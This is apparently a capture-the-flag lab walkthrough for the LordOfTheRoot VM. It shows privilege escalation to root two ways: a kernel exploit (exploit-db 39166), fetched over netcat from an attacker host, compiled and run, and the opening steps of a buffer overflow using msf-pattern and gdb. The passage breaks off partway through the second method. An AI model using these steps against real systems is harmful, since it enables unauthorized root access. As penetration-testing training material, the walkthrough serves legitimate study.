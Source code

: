 ## Root - Via Kernel Exploit

1. Linpeas
	![](Pasted%20image%2020220125174639.png)
	- `3.19.0-25-generic`
	- `Ubuntu 14.04`
2. Find exploits for `3.19.0-25-generic, Ubuntu 14.04`
	- https://www.exploit-db.com/exploits/39166
3. Transfer to target & exploit
	```
	smeagol@LordOfTheRoot:/tmp$ nc 192.168.236.4 4444 > 39166.c
	smeagol@LordOfTheRoot:/tmp$ gcc 39166.c -o exploit
	smeagol@LordOfTheRoot:/tmp$ ./exploit
	root@LordOfTheRoot:/tmp# 
	```
	![](Pasted%20image%2020220125180356.png)
	
## Root - Via BufferOverflow
- [Video Demo](https://youtu.be/qPBUKSKk5g4)
	<iframe width="720" height="500" src="https://www.youtube.com/embed/qPBUKSKk5g4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

1. Determine Buffer Size till EIP overflows with A
	- Via fuzzing
	- Buffer Size: 200
2.  Create msf-pattern
	```
	msf-pattern_create -l 200
	Pattern:
	run $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')
	```
3. Use `env`
	```
	env - gdb /SECRET/door3/file
	show env
	unset env LINES
	unset env COLUMNS
	show env
	```
4.  Determine Pattern Address & Return Address
	```
	# Determine Return Address 
	# Address must not have badChars
	i r # Look at ESP
	i r esp
	x/40x $esp
	